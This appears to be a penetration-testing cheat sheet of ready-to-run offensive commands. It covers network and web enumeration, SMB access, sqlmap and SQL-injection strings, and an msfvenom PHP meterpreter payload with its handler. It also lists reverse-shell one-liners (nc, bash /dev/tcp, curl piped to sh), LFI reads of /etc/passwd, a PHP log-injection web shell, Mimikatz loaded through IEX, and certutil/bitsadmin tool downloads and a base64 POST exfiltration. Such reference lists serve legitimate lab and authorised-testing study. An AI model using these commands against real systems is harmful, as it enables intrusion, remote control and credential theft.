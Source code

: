 # Basic Enumeration

#### NMAP check for live hosts
- `sudo nmap -sn 10.0.0.0/24 -oN discovery.nmap`

#### sort
- `cat discovery.nmap | grep "for" | cut -d " " -f 5 > ips.txt` 

#### NMAP scan
- `sudo nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open`

#### NMAP Scan
- `sudo nmap -sC -sV -oA testbox 10.0.0.1`

####Other type scans
- `nc -nv -u -z -w 1 192.168.1.44 1300-1500`

### Web Directory Enumeration
#### gobuster
- `gobuster dir -u http://10.0.0.1 -w /usr/share/wordlists/dirb/big.txt`

#### wfuzz
######  directory    
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt --hc 404 -u 10.0.0.1/FUZZ`  
###### filename + extension  
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/extensions_common.txt --hc 404 -u 10.0.0.1/FUZZ%FUZ2Z`  
###### deeper enumeration  
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/extensions_common.txt --hc 404 -u 10.0.0.1/FUZZ/FU2Z%FUZ3Z`

### SMB Enumeration

- `enum4linux -a 10.0.0.1`
- `smbclient -U "user" -L 10.0.0.1`
- `showmount -e 10.0.0.1`
- `sudo mount -t cifs //10.0.0.1/share$ smb/ -o user="user"`
- `smbclient \\\\10.0.0.1\\sharename -U guest`

### LDAP Enumeration

- `jxplorer`

### SQLMAP 
- if there is a parameter then one could use sqlmap
- e.g http://10.0.0.1/?id=2
- use burp to get the request page and save it as req.txt
- then run
- `sqlmap -r req.txt --tamper=space2comment --dump-all --dbms mysql`

- try `' or 1=1--` in the username and password field
- enumerate how many columns there are
- `user='UNION SELECT NULL,'test',NULL,NULL--&password=admin`

### msfvenom and msfconsole reverse shell

- `msfvenom -p php/meterpreter_reverse_tcp lhost=10.0.0.1 lport=9998 -o moon.php`

###### msfconsole
- `use exploit/multi/handler`
- `set payload php/meterpreter_reverse_tcp`
- `set LHOST 10.0.0.1`
- `set LPORT  9998`
- `run`

###### Reverse shells

- `mkfifo /tmp/boop;nc IP PORT 0</tmp/boop | /bin/sh -i 2>&1 | tee /tmp/boop`
- `curl http://IP:port/shell.sh | sh`
- `exec("/bin/bash -c 'bash -i > /dev/tcp/IP/PORT 0>&1'");`
- `/bin/bash -c 'bash -i > /dev/tcp/IP/PORT 0>&1'`

- `python3 -c 'import pty; pty.spawn("/bin/bash")'`

###### Web enumeration

LFI
- `http://10.0.0.1/?page=index.php`
- `http://10.0.0.1/?page=../../../etc/passwd`
- `http://10.0.0.1/?page=php://filter/convert.base64-encode/resource=index.php`

Log injection 
- change user agent
- `<?php system($_GET['cmd']); ?>`
- `http://10.0.0.1/?page=../../../var/apache2/access.log?cmd=wget%20http://IP:PORT/shell.php`
- `expect://id`
- `curl -s -X POST --data "<?php system('id'); ?>" "http://10.0.0.1:80/index.php?language=php://input"`

###### Download files

- `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`
- `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`
- `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`
- `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`
- `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`
- `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`
- `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
- `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`
- `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`
- `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`
- `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"`


- `ffuf -h` 	ffuf help
- `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ` 	Directory Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/indexFUZZ` 	Extension Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/dir/FUZZ.php` 	Page Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ -recursion -recursion-depth 1 -e .php -v` 	Recursive Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u https://FUZZ.domain.com/` 	Sub-domain Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://domain.htb:PORT/ -H 'Host: FUZZ.domain.com' -fs xxx` 	VHost Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://sub.domain.com:PORT/admin/admin.php?FUZZ=key -fs xxx` 	Parameter Fuzzing - GET
- `ffuf -w wordlist.txt:FUZZ -u http://sub.domain.com:PORT/admin/admin.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx` 	Parameter Fuzzing - POST
- `ffuf -w ids.txt:FUZZ -u http://sub.domain.com:PORT/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx`
